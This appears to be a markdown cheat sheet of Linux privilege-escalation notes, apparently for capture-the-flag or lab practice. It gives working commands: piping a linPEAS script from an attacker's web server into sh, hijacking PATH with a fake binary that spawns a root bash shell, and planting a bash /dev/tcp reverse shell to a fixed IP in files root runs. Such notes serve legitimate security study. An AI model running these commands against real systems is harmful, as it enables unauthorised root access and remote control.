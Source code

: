 # Privilege Escalation:

## linPeas:
  1. ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

  2. Once the linpeas.sh is downloaded, we can make our own webserver for the target machine to access. That way we can run the
     linpeas script in the target machine:
        ```python3 -m http.server 80```
  3. From the target machine, we can download the linpeas script from the attacker machine's web server with a curl command:
        ```curl <Your_Kali_VM_IP>/linpeas.sh | sh```

  4. make sure to modify permissions to allow us to execute linpeas.sh:
    ```chmod +x linpeas.sh```
  5. GTFOBins: after linpeas has found a PrivEsc vulnerability, GTFOBins can be used to find out how to exploit the PrivEsc vulnerability:
  https://gtfobins.github.io/

## PATH PrivEsc:
1. Find a binary in the system that calls for the execution of an easily replicatable file. Let's say a binary/script calls for a file called 'thm', we can create a copy of the 'thm' file that will be found first in the PATH variable.
2. Find a writeable directory using ```find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u```
3. Choose one of the writeable directories and add that chosen directory to the path variable: ```export PATH=/tmp:$PATH``` in the case we chose tmp as the writeable directory.
4. In that writeable directory, add a file with the same name as the one you want to copy, in this case 'thm'.
5. To create an executable file use ```echo "/bin/bash" > thm```
6. Allow it to be executed with ```chmod 777 thm```
7. Go back and run the executable and you will be given a shell with root.

## Reverse Shells
1. use ```id``` command to check which groups the user is a part of.
2. Once we find the groups the a user is a part of, we can use
    ```find / -group "groupName" -type f 2>/dev/null```
to find the files that are owned by the group/user
3. in that file, add a script from ```https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet``` that gives a reverse shell. In case bash is used for the reverse shell, use ```bash -c 'bash -i >&  /dev/tcp/10.6.31.128/1337 0>&1'```
4. Save the file with the new script.
5. If the file that you just manipulated is only run by a user with root privileges, find out when and how to run that file. Sometimes there are certain files that are ran on startup or ssh login as root.

